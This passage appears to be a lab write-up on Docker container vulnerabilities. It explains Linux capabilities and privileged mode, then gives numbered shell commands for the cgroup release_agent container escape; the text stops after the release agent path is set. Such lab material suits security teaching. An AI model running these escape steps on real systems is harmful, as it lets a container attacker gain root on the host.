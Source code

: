### Summary
These are just some of the vulnerabilities that can exist within containers. The tasks in this room will explore these vulnerabilities in greater detail!


# Task 3 : Vulnerability 1 : Privileged Containers (Capabilities)

At its core, **Linux capabilities** are root permissions assigned to processes or executables within the Linux kernel. These privileges enable a granular assignment of permissions, rather than granting all privileges to a process.

### Capabilities and Docker Modes

Docker containers can operate in two modes:

- **User (Normal) Mode**: Containers in this mode interact with the operating system through the Docker Engine.
- **Privileged Mode**: Containers in this mode bypass the Docker Engine and directly communicate with the host operating system.

In "privileged" mode, a container effectively has root access to the host operating system.

---

### Checking Capabilities

To determine what permissions a container has, you can use tools like `capsh` (from the `libcap2-bin` package) to list the capabilities available to the container:

```bash
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap
```

### Exploiting Privileged Containers:

1. **Create a cgroup and mount it to the container**:
```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

2. **Set up a trigger for the kernel**
```bash
echo 1 > /tmp/cgrp/x/notify_on_release
```

3. **Determine the host path**:
```bash
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
```

4. **Define the release agent**:
```bash
echo "$host_path/exploit" > /tmp/cgrp/release_agent
```
